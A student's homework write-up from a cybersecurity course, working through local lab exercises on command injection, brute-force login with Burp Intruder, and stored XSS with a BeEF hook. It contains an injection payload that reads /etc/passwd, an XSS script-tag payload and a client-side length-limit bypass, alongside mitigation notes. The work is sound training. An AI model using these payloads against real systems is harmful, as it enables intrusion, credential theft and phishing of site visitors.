



# Unit 15 Homework: Web Vulnerabilities and Hardening
## Prepared by Shamsul Chowdhury
---

## Web Application 1: Your Wish is My Command Injection
Access Vagrant and open a browser.

Launch Vagrant from GitBash and run the following command:

`cd ./Documents/web-vulns && docker-compose up`

Leave this page open and continue to the next step.

Open Chrome, navigate to the following web page:


Log in with the following credentials:

User name: admin
Password: password
Select the Command Injection option from the left menus.


Using the dot-dot-slash ../ method five times to design two payloads that will display the contents of the following files:

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 

 `/etc/passwd`

 `8.8.8.8 && cat ../../../../../etc/passwd`

 

 ### Recommended mitigation strategies:
 - Server-side validation that does not allow selection of unintended files.​
 - Segregation of confidential files from the web server and accessible directories.
 - Permissions to restrict web server account accessibility.


## Web Application 2: A Brute Force to Be Reckoned With
Run this command sudo burpsuite in Vagrant command line.

Open Firefox which was already installed FoxyProxy [Foxy-Proxy](images/foxy-proxy.PNG) add-on extension in class activities.


In Burpsuite, I got following intercept data:


Send above Proxy intercept results to Intruder. 

Click Intruder tab;

Verify Target;


Setup Positions, 

select attack type Cluster bomb;

Configure and add login and password as positions.


Click Payloads tab, choose Payload type as Simple list;

Add login user ID from List of Administrators file into Payload set 1;


Add password from Breached list of Passwords file into Payload set 2;


Click `Start attack`

After analysis of intruder attack results, the login username/password combination of `tonystark` and `I am Iron Man` did result in a successful login. The page displays `Successful login! You really are Iron Man :)`.



### Recommended mitigation strategies:

Mitigations can include requiring complex `usernames` and `passwords`, using `multi-factored authentication`, and `enabling a lockout` after a certain amount of failed login attempts.

## Web Application 3: Where's the BeEF?


### **Step 1, Prepare Replicants website**

Inside Vagrant, go to this folder, run command: 
`~/Documents/web-vulns$ docker-compose up`

Go to this website: `http://192.168.13.25/vulnerabilities/xss_s/`

Reset db and login again. 
Username: `admin`
Password: `password`

### **Step 2, Setup BeEF**

On Vagrant, open a command line and run the following command: sudo beef

When prompted for a password, enter cybersecurity.

To access the BeEF GUI, right-click the first URL UI_URL: http://127.0.0.1:3000/ui/panel and select Open Link.


When the BeEF webpage opens, login with the following credentials:

Username: `beef` 
Password: `feeb`

### **Step 3, Find BeEF hook and write payload**

```
BeEF hook: http://127.0.0.1:3000/hook.js

Payload: <script src="http://127.0.0.1:3000/hook.js"></script>
```
### **Step 4, Inject this payload**

One issue was found: in the message box field, there only has maxlength="50" in original source code, therefore we can not input the whole payload code.


Solution: Right-clicking on web page and selecting "Inspecting the Element". Change as `maxlength="100"`, or just delete this code limit.


### **Step 5, A couple BeEf exploits**

Social Engineering >> Pretty Theft


Social Engineering >> Fake Notification Bar


Host >> Get Geolocation (Third Party)


#### Recommended mitigation strategies

Input validation is a common method used to mitigate cross-site scripting.